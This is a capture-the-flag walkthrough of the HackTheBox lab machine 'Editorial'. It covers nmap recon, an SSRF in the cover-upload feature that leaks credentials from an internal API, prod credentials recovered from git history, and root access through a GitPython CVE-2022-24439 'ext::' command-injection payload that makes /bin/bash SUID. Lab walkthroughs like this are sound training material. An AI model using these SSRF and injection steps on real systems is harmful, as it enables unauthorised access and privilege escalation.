




# Editorial Walkthrough

## Recon

### nmap 

First, I ping the IP to see whether it's alive

Then I do nmap to find any open TCP ports

#### nmap -p- --min-rate 10000 10.129.63.136

So we have 2 ports open

PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  

Let's scan those ports more specifically
#### nmap -p 22,80 -sCV 10.129.63.136

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)  
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|_http-server-header: nginx/1.18.0 (Ubuntu)  
|_http-title: Did not follow redirect to http://editorial.htb  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

So with openSSH version, i google and find that it is running on Ubuntu 22.04 jammy jelllyfish.

The web server is redirecting to editorial.htb.

Then I do ffuf for subdomain
#### ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.129.63.136 -H "Host: FUZZ.target.com" -fs 0

=> Nothing is interesting so I will add those to /etc/hosts using this command

#### echo '10.129.63.136 editorial.htb' | sudo tee -a /etc/hosts

### Website - TCP 80

On the search bar I send some payload XSS with alert but nothing show up 

The newsletter signup at the bottom, I send some test email but not working

So there is "About" link /about It include email address submissions@editorial.htb

The “Publish with us” link (/upload) has a form for uploading books:

I fill out the form with a URL pointing to my host, but when on clicking “Send book info”, there isn’t contact. 

Then if I use the “Preview” button, it does:

With nc -lnvp 80, I can see some GET request

If I serve an image file with my Python webserver (python -m http.server 80) and give that URL

If you provide a URL for an HTML page instead of an image, Editorial still saves the raw content to a file. For instance, inputting my Python webserver root (http://10.10.15.146/) results in a file containing the directory listing.

Based on the connection request, this site is running Python.

### Directory Brute Force
Let's do some feroxbuster

#### feroxbuster -u http://editorial.htb

### Shell as Dev

I tried port 33333 and it return instantly

Then I save the request with http://127.0.0.1:FUZZ

#### ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac

Then I find port 5000 and send to burp suite

Let's fetch some data

#### curl http://editorial.htb/static/uploads/e052a627-4138-4127-bf97-70414f7be546 -s | jq .

I find 

description": "Retrieve a list of all the promotions in our library.",  
"endpoint": "/api/latest/metadata/messages/promos",  
"methods": "GET"  

#### curl -s 'http://editorial.htb/static/uploads/cda65957-4654-4a11-8bf2-5a382fdce746' | jq .

{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}

=> It had usernam and password

Let's check some ssh

#### netexec ssh editorial.htb -u dev -p 'dev080217_devAPI!@'  
SSH         10.129.63.136   22     editorial.htb    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.7  
SSH         10.129.63.136   22     editorial.htb    [+] dev:dev080217_devAPI!@  Linux - Shell access!  

Let's ssh in 

dev@editorial:~$ whoami  
dev  

Then

dev@editorial:~$ cat user.txt  
3aa37e56182b1b009ea38a72b67eabb7  

So after quick enumeration I found user called prod

dev@editorial:~$ id  
uid=1001(dev) gid=1001(dev) groups=1001(dev)  
dev@editorial:~$ cat /etc/passwd  

cat /etc/passwd | grep "sh$"

=> prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash

I do dev@editorial:~$ ls -la

And there is apps folder, when I do ls it look empty

Then I do ls -a

There is .git directory

Let's do git status

some app changes so I look further

dev@editorial:~/apps$ git log --oneline  
8ad0f31 (HEAD -> master) fix: bugfix in api port endpoint 
dfef9f2 change: remove debug and update api port 
b73481b change(api): downgrading prod to dev 
1e84a03 feat: create api to editorial info 
3251ec9 feat: create editorial app 

So I do git diff [hash] [hash] will show the differences between two commits. An interesting on is “downgrading prod to dev”:

dev@editorial:~/apps$ git diff 1e84a03 b73481b

dev@editorial:~/apps$ git diff 1e84a03 b73481b
diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass

And found password for prod user

Let's validate the password 

#### netexec ssh editorial.htb -u prod -p '080217_Producti0n_2023!@'

SSH         10.129.63.136   22     editorial.htb    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.7  
SSH         10.129.63.136   22     editorial.htb    [+] prod:080217_Producti0n_2023!@  Linux - Shell access!  

### Shell as root

ssh prod@editorial.htb  
prod@editorial:~$ whoami  
prod

The prod user can run a python script as root by runnign sudo -l

prod@editorial:~$ sudo -l  
[sudo] password for prod:   
Matching Defaults entries for prod on editorial:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty  

User prod may run the following commands on editorial:  
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *  

I do  
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py

It runs from this directory, and takes a URL to clone from.

Let's check git version on the box

prod@editorial:~$ git version  
git version 2.34.1  

Then we do follow cmd

prod@editorial:~$ pip freeze | grep -i git  
gitdb==4.0.10  
GitPython==3.1.29  

Then I search GitPython cve 3.1.29 and then found CVE-2022-24439: GitPython Remote Code Execution (RCE)

We used the Proof of Concept (PoC) code and got code execution in the context of root.

#### prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'

This vulnerability stems from the library making external git calls without properly sanitizing input, but only when the ext transport protocol is enabled.

#### prod@editorial:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
#### prod@editorial:~$ /bin/bash -p
bash-5.1# cat /root/root.txt
c8bc32a084afdf077046464024ea5edc

  